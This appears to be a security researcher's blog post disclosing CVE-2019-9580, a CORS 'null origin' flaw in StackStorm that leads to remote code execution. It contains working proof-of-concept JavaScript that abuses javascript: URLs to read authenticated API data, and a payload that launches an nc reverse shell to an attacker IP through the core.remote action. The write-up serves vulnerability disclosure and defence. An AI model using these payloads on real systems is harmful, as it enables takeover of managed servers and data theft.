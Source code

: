 ```yaml
---
layout: post
title: StackStorm - From Originull to RCE - CVE-2019-9580
---
```


<div style="text-align:center"><img src="https://www.thefastmode.com/media/k2/items/src/3cc8012eca57577e33709ae3cf2556ae.jpg"></div><br>StackStorm (aka "IFTTT for Ops") is event-driven automation for auto-remediation, security responses, troubleshooting, deployments, and more.
In this blogpost I will describe how can you cause RCE on targeted servers which only requires an authenticated user browse to malicious webpage.


So first, lets understand what is StackStorm, StackStorm is a really popular (3K stars on github) devops event-driven automation tool, allows devops to configure actions, workflows, and scheduled tasks, in order to perform some operations on large-scale servers.

Actions will run on behalf remote servers managed by StackStorm agent. Those actions can be anything, from HTTP request to an arbitrary command as you can see in the following image:
<div style="text-align:center"><img src="https://lh6.googleusercontent.com/cHgBmUQavZ2tfo98YZzGbZtSqCOVZJrsSXiVrbFE3H9PobrckApM4fRx_ce2R1yFX59Dz5bpUlIAQg-Zh0JDQKZuBI4SqleX8uCczQEi"></div>

Due to the fact that StackStorm agent run those actions on remote servers it will be “blessed” by quite high-privileges. This fact really motivated me to find flaw in it.

I was managed to see this request:
<div style="text-align:center"><img src="https://lh3.googleusercontent.com/gnw0KB9Ii4BH-nR2zIKzHAVEMnJYy68bjO_3rD6uHW_RbZaJACFUQ8m-b_i_pyb3w9p9Hq1uw14VySYCPr31KjE6jazfkf2TzaSVSEa7BrLLWw3zPqvTn9Pzf4_VhGPVh_pMZQBG"></div>

As we can see the “Access-Control-Allow-Origin” header returning in each request to StackStorm REST API, even when request not includes the origin header, quite weird but anyway might make sense…
Then I started to send a malformed Origin header and I realized that the server cant handle it properly, and returning the header “Access-Control-Allow-Origin: null”:
<div style="text-align:center"><img src="https://lh5.googleusercontent.com/iROyOQlB1lRDbcvCOis4P8PkcJb3kcSG8PJCpyiAHjubxJ7tG9JIVu-nS9Vtd3Wo6bZoiQubqBTOP4FS5F7qWveiDXUqvtDkG_2uq-vNyPSITx-nQtB9GdwLbaO-iQtIQfWUYB2D"></div>


Right away I knew that there is something interstring in here, and reminded the [Originull attack discovered by Ysrael Gurt](https://bugsec.com/wp-content/uploads/2016/12/Blog-Post-BugSec-Cynet-Facebook-Originull.pdf)
This is the first time I encountered that on the wild, I was really curious about why is this happening in first place?
why servers returning “Access-Control-Allow-Origin: null” header at all? they can just not return this header at all.
I managed to read a bit the [The Web Origin Concept RFC](https://tools.ietf.org/html/rfc6454) and find page 11 quite interesting related to Originull:
<div style="text-align:center"><img src="https://lh4.googleusercontent.com/MSAecvSRa9BHTCV32M526_aisMdNz2ApU_e5xoZRbf7bv9vkXQTP0rLJlRi3wzEIMg8ZQKj142Mk-v2i1wNAkI_t4hm4xDMxo9rRpLXG8qHjXQJrrgxKFzQF_Lz_tmdV8ym85pUs"></div>


To simplify, the RFC defines, in case the server got a malformed origin which cannot be serialized, set the string “null” as the Origin header.
Now we can understand what is the root cause for all this, that's makes me laugh a bit because the RFC defines one thing, but [Mozilla best practices](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Origin) saying to avoid using it (make sense anyway).

After we understand why is this happening, let’s understand how can we exploit this flaw?
So now the origin “null” have the a “full privileges” to StackStorm REST API, which means, that this origin can fetch requests and read responses on behalf any user that will browse to this “null” origin.
How can I get null origin? Via data/file scheme as shown in the PDF mentioned above.
You can run this in your browse and see that you get empty(document.domain=null) alert message:
```javascript
data:text/html;,<script>alert(document.domain)</script>
```
At the PDF document, they used a meta tag in order to redirect the user to browse this malicious data URL:
```bash
<meta http-equiv="refresh" content="0;URL='data:text/html;,<script>alert(document.domain)</script>'" />  
```

I tried to use the same technique in order have a popup message reading data from StackStorm REST API but I got this message:
<div style="text-align:center"><img src="https://lh6.googleusercontent.com/uxhmHpvw8aMpa9kaVcD8QFj9a6wDgaRXO3VAQRhuvM0ZfEcH1LCEBfSUvxmW0dD7u0_YPYzc5-Yl4jEAt0vKRiNWQQfpkIlszclJBDnHVyeME2kD4E3X4y7s3Rd8T55OYoLucEF7"></div>


Crap! I realized that chrome and firefox disabled any data scheme redirections.
I was needed to get another creative way to redirect users to execute this malicious script on null origin context.
Tried to manipulate redirections responses with data URL schemes on Location header but it failed.
Finally I used “javascript:” scheme, which allows me to execute JS code which runs on the same context as data and file schemes.
So by the javascript scheme I was managed to make a full working PoC as shown below:
```html
<script>	document.location="javascript:fetch('https://172.18.0.6/api/v1/executions',{credentials: 'include'}).then((res)=>{console.log(res.json().then((a) => {console.log(a)}));})"
</script>
```
We can see the REST API response object printed to the console and can be leak to anywhere:
<div style="text-align:center"><img src="https://lh4.googleusercontent.com/e5tZ0o6HXlE4PCu9Ru_EaXQh_7ThnP5BEmGioidAKZqxS6pgW391Ykfd8gt022rE3aNAZeWhMVqgyFlDFg7WldynKB1Ys7R5aNS5qv0G0SqIdKTkzrg4O4JQA9Gx3Yrjx4KaadPp"></div>

So actually, we have to ability to read/update/create actions and workflows, get internal IPs and execute command on each machine which is accessible by StackStorm agent.

It is possible to perform code execution via core.remote action:
```html
<script>
		let jsonBody = {"action":"core.remote","parameters":{"cmd":"nc 192.168.100.113 4444 -e /bin/bash","hosts":"10.0.0.10"},"context":{"trace_context":{}}}
		document.location="javascript:fetch('https://172.18.0.6/api/v1/executions',{credentials: 'include', method: 'post', body: JSON.stringify(jsonBody),headers: {'Content-Type': 'application/json'}}).then((res)=>{console.log(res.json().then((a) => {console.log(a)}));})"
</script>

```
<div style="text-align:center"><img src="https://lh4.googleusercontent.com/N_RVrqFZcfJcZ3AK9DyZnLkAzbMTtdk9A6MTEsiuMIHfik4RADjEZAH3Yt4gB6xIRU6E5gDOmwuXkuK-m4x0kybVeKrrQ6DG23mvF5fJyT7DGFvSNBLidEBsuheYxnmkA8LR2LZ5"></div>

So I was sure I done, but then I tried to run it from a web server, and got the following error message:
<div style="text-align:center"><img src="https://lh5.googleusercontent.com/wyjtRTeOMqk6AtCZ8AWIR8uPXet9us9iRP7S2TeXp1ACU9AGQ_Z2hOlM3r9yFec8tbhgMLWkep9QcNV3JcHrcKnvKMwqHh2CSOmHzlu8V3tY9sSD7-WO8FOhIwQQYgAoODFPDWrY"></div>

I was like, not again!!! The browser actually saves the origin context even if we use javascript, so it was only exploitable via sending a file to the user and make him open it.

I was frustrated and motivated at the same time, got help from my talented colleague Chen Gur Arie, together we managed to bypass this restriction as well, and we got Origin null context from a page loaded in a domain (btw, Flash can do that as well)
I don't want to elaborate about how we did it, because we still trying to figure out what are the implications of it.


Now all an attacker needs is to send a malicious link to a victim which is authenticated to StackStorm Web UI, thus, allow the attacker take over any server accessible by StackStorm agent as you can see at [the PoC video](https://www.youtube.com/watch?v=KnvWCg2Q7k4)
